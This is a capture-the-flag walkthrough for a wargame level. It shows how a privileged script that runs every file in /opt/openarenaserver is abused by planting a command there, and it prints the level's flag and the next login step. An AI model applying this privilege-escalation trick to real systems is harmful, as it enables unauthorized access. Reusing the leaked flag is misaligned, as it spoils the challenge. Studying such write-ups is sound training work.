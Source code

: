 

# **Level05**

### **Walk through**

This time, `ls -la` gives us nothing. We try: 

`find / -user flag05 -group flag05 2>/dev/null | grep -v proc` that gives us:

```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

When we `cat /usr/sbin/openarenaserver`  we obtain this output:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
It's a script bash. This script loop over everything in the directory. `ulimit -t 5` gives a limit of 5 seconds of CPU time. `bash -x "$i"` execute **$i** and the **-x** print the command in the standard error output. After the execution of a file, it's deleted. 

So the idea is to write a script that will be store in `/opt/openarenaserver/` and executed by the script just above.

To do so, 

`echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh`  
`chmod +x /opt/openarenaserver.sh`  

Now all we have to do is:

`cat /tmp/flag05` until the flag appears **`viuaaale9huek52boumoomioc`**

We will use it to log as level06

`su level06`
